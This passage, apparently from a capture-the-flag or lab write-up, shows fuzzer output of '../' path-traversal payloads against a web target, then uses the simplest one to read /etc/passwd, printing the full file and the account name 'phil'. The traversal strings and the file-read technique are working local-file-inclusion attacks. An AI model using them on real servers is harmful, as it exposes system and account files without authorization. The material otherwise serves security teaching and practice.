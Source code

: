 ```
000000240:   200        57 L     139 W      1405 Ch     "../../../../../../../../../../../proc/self/status"                                                                                                                        
000000241:   200        57 L     139 W      1405 Ch     "../../../../../../../../../../../../proc/self/status"                                                                                                                     
000000237:   200        57 L     139 W      1405 Ch     "../../../../../../../../proc/self/status"                                                                                                                                 
000000239:   200        57 L     139 W      1405 Ch     "../../../../../../../../../../proc/self/status"                                                                                                                           
000000236:   200        57 L     139 W      1405 Ch     "../../../../../../../proc/self/status"                                                                                                                                    
000000233:   200        57 L     139 W      1405 Ch     "../../../../proc/self/status"                                                                                                                                             
000000235:   200        57 L     139 W      1405 Ch     "../../../../../../proc/self/status" 

[...]
```

Success! It turns out that numerous LFI strings are possible, but for our purposes we can utilize the most simple one (e.g., `../../../../<root of filesystem>`), which allows us to view `../../../../etc/passwd` and reveal the user account name `phil`:

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/usr/sbin/nologin
systemd-oom:x:999:999:systemd Userspace OOM Killer:/:/usr/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/usr/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
setroubleshoot:x:997:995:SELinux troubleshoot server:/var/lib/setroubleshoot:/sbin/nologin
cockpit-ws:x:996:994:User for cockpit web service:/nonexisting:/sbin/nologin
cockpit-wsinstance:x:995:993:User for cockpit-ws instances:/nonexisting:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
chrony:x:994:992::/var/lib/chrony:/sbin/nologin
dnsmasq:x:993:991:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
systemd-coredump:x:989:989:systemd Core Dumper:/:/usr/sbin/nologin
systemd-timesync:x:988:988:systemd Time Synchronization:/:/usr/sbin/nologin
developer:x:1000:1000::/home/developer:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
_laurel:x:987:987::/var/log/laurel:/bin/false
```
